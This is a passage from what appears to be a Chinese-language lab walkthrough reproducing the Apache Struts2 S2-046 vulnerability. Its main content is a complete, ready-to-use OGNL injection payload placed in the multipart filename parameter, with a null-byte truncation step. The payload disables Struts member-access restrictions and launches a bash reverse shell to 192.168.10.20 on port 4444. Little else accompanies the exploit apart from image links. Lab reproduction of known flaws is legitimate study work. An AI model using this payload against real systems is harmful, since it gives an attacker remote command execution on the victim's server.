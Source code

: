 ![s2-046-3](images/s2-046-3.png)

反弹 Shell，与上一步的方法相同，将 `filename` 参数的值设置为如下内容，然后再 Hex 模式下进行 00 截断

```
filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i >& /dev/tcp/192.168.10.20/4444 0>&1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} b"
```

![s2-046-4](images/s2-046-4.png)
